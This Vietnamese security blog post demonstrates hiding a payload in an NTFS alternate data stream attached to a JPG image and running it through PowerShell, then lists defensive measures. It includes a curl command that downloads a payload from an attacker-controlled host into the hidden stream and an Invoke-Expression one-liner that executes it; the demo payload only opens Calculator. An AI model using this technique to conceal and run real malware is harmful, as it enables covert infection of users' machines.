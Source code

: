 # Hacker ẩn Malware vào hình ảnh và thực thi như thế nào?

Thế giới kỹ thuật số ngày càng phát triển mạnh mẽ, nguy cơ từ các hacker và Virus luôn là mối quan tâm hàng đầu của người dùng Internet. Các tấn công mạng ngày càng tinh vi và phức tạp, và một trong những phương pháp đáng sợ nhất mà hacker đang sử dụng là thực thi mã độc thông qua hình ảnh. Có thể bạn đã nghe nói về việc đính kèm mã độc vào tệp tin hình ảnh và lây lan thông qua các trang web, email hay ứng dụng đúng không nhỉ? Vậy trong bài viết này, Anonyviet demo lại cách mà hacker thực thi Virus (phần mềm độc hại) bằng hình ảnh và tại sao phương pháp này có thể gây hậu quả nghiêm trọng cho việc bảo mật thông tin của chúng ta.

**Lưu ý: Bài viết chỉ dành cho mục đích giáo dục, nghiên cứu và học tập. Mọi hành vi liên quan đến pháp luật, Anonyviet sẽ không chịu trách nhiệm về mọi hành vi mà bạn gây ra!**

## Demo Hacker ẩn Virus vào hình ảnh và cách thực thi

Đầu tiên mình đã chuẩn bị sẵn một hình ảnh có tên là anonyviet.jpg, và một máy chủ Kali Linux để lưu trữ các mã độc. Bây giờ mình sử dụng lệnh curl để lấy để lấy "mã độc" có trong payload.txt. Trong payload.txt mình đã lưu trữ một dòng lệnh `calc.exe`. Đây là một câu lệnh đơn giản để mở Calculator trên hệ điều hành Windows.

Để nhúng calc.exe vào hình ảnh anonyviet.jpg mình đã thực hiện lệnh sau:

```
curl http://192.168.0.111:8000/payload.txt > anonyviet.jpg:payload
```

Câu lệnh trên sẽ thực hiện việc tải về nội dung từ URL "http://192.168.0.111:8000/payload.txt" và ghi nội dung đó vào tệp tin "anonyviet.jpg:payload"

Sau lệnh curl thực thi xong, chúng ta có thể thấy dung lượng hình ảnh không thay đổi nhưng khi bạn nhập lệnh `dir /r` thì các bạn có thể thấy 1 dữ liệu khác có tên là `anonyviet.jpg:payload:$DATA`

Mặc dù các bạn đã biết trong `anonyviet.jpg:payload:$DATA` có chứa dữ liệu "calc.exe", nhưng trong trường hợp khác. Giả sử nếu bạn thực thi 1 file virus.exe, con virus này nó thực thi câu lệnh curl giống như trên. Vậy làm sao để biết được mã độc dấu trong hình ảnh. Và đây là cách mình kiểm tra với lệnh bên dưới:

```
powershell -c "Get-Content .\anonyviet.jpg -Stream payload"
```

Câu lệnh trên được sử dụng để truy xuất dữ liệu từ một luồng dữ liệu (stream) đặc biệt trong tệp tin "anonyviet.jpg". Để hiểu rõ hơn về lệnh này, mình sẽ giải thích từng phần cụ thể:

1. `powershell`: Đây là một chương trình dòng lệnh trong hệ điều hành Windows, cho phép thực thi các lệnh và tập lệnh (script) PowerShell.
2. `-c`: Đây là tùy chọn "command" trong PowerShell, cho phép bạn cung cấp một câu lệnh PowerShell trực tiếp từ dòng lệnh.
3. `"Get-Content .\anonyviet.jpg -Stream payload"`: Đây là câu lệnh PowerShell được trích dẫn trong dấu ngoặc kép. Nó sẽ được thực thi bởi PowerShell khi bạn chạy câu lệnh đó.
   - `Get-Content`: Là một cmdlet (lệnh) trong PowerShell được sử dụng để đọc nội dung của tệp tin.
   - `.\anonyviet.jpg`: Là đường dẫn tới tệp tin "anonyviet.jpg" trong thư mục hiện tại
   - `-Stream payload`: Đây là tham số "payload" của lệnh Get-Content. Trong PowerShell, "-Stream" cho phép bạn đọc dữ liệu từ các luồng dữ liệu đặc biệt của tệp tin. Trong trường hợp này, mình đang truy xuất dữ liệu từ luồng "payload" trong tệp tin "anonyviet.jpg"

Như vậy các bạn có thể thấy "calc.exe" đã được in ra màn hình. Vậy làm cách nào để thực thi "calc.exe", và đây là cách mình đã làm:

```
powershell -c "$opencalc = Get-Content .\anonyviet.jpg -Stream payload; Invoke-Expression $opencalc"
```

Mình đã gán một biến có tên `$opencalc` sau đó mình dùng lệnh `Invoke-Expression $opencalc`. Đây là câu lệnh PowerShell sử dụng cmdlet "Invoke-Expression" để thực thi dữ liệu được lưu trữ trong biến `$opencalc` như một câu lệnh PowerShell. Tức là nội dung đọc từ luồng "payload" trong tệp tin "anonyviet.jpg" sẽ được thực thi như một mã lệnh PowerShell

Như vậy các bạn có thể thấy "calc.exe" đã được thực thi thông qua hình ảnh. Và để thực tế hơn nữa, mình sẽ demo lại thực thi mã độc bằng hình ảnh + Bypass Antivirus.

## Dưới đây là một số cách phòng chống Hacker ẩn Virus vào hình ảnh:

1. **Giới hạn quyền truy cập vào PowerShell:** Đảm bảo rằng người dùng cuối không có quyền truy cập vào PowerShell hoặc giới hạn quyền sử dụng PowerShell cho các người dùng chỉ cần sử dụng nó trong mục đích công việc cụ thể

2. **Kiểm tra và cập nhật hệ thống:** Đảm bảo hệ điều hành và phần mềm trên máy tính luôn được cập nhật bản vá bảo mật mới nhất. Các bản vá này giúp bảo vệ khỏi các lỗ hổng bảo mật mà hacker có thể tận dụng

3. **Chỉ cài đặt phần mềm đáng tin cậy:** Đảm bảo rằng chỉ cài đặt và sử dụng các ứng dụng và phần mềm đáng tin cậy từ các nguồn có nguồn gốc xác thực. Tránh tải xuống và chạy các phần mềm từ nguồn không rõ nguồn gốc

4. **Sử dụng phần mềm chống mã độc:** Cài đặt và duy trì một phần mềm diệt virus và phần mềm chống Virus hiệu quả để ngăn chặn các cuộc tấn công từ mã độc và phần mềm độc hại

5. **Quản lý tường lửa và quyền hạn:** Thiết lập tường lửa để kiểm soát các kết nối đến và ra khỏi hệ thống và hạn chế quyền hạn của người dùng, đặc biệt là đối với các tài khoản quản trị viên

6. **Kiểm tra dữ liệu đầu vào:** Trong ứng dụng của bạn, hãy kiểm tra và xác thực dữ liệu đầu vào của người dùng để tránh các cuộc tấn công thông qua các kỹ thuật nhập liệu không an toàn

7. **Tạo sao lưu định kỳ:** Đảm bảo sao lưu dữ liệu thường xuyên và lưu trữ nó ở một nơi an toàn để đảm bảo rằng bạn có khả năng khôi phục lại dữ liệu trong trường hợp bị Virus tấn công

8. **Đào tạo người dùng:** Tăng cường khả năng nhận diện các cuộc tấn công từ Virus và tư duy bảo mật cho người dùng của bạn để họ hiểu và phòng chống các mối nguy hiểm tiềm tàng

9. **Kiểm tra các tệp tin hình ảnh và luồng dữ liệu:** Sử dụng phần mềm chống mã độc để quét các tệp hình ảnh và các luồng dữ liệu trong các tệp tin để phát hiện và ngăn chặn các mã độc có thể ẩn trong hình ảnh

Như vậy mình đã demo lại cách mà hacker thực thi Virus thông qua hình ảnh. Mình thấy đây là một thủ thuật tinh vi và nguy hiểm có khả năng phát tán mã độc rất cao. Chúng ta đã khám phá cách mà hình ảnh có thể được sử dụng như một vũ khí trong tay của hacker để xâm nhập vào hệ thống và lây nhiễm các phần mềm độc hại vào máy tính của chúng ta. Từ việc giấu Virus vào hình ảnh cho đến việc thực thi Virus thông qua các luồng dữ liệu, các chiến thuật này đòi hỏi chúng ta phải tăng cường nhận thức và thực hiện các biện pháp phòng ngừa mạnh mẽ. Việc bảo mật thông tin và dữ liệu trong thời đại công nghệ số là một thách thức không hề nhỏ. Để bảo vệ bản thân trước những cuộc tấn công Virus thông qua hình ảnh, chúng ta cần kết hợp sự cảnh giác, kiến thức về các chiến thuật tấn công, và việc sử dụng các công cụ bảo mật đáng tin cậy. Việc duy trì hệ thống và phần mềm cập nhật thường xuyên, cùng việc hạn chế quyền truy cập và giám sát hoạt động mạng cũng là những yếu tố quan trọng để đảm bảo an toàn.

---

*Nguồn: AnonyViet*
*Tags: ẩn virus vào hình ảnh, mã độc, malware, virus*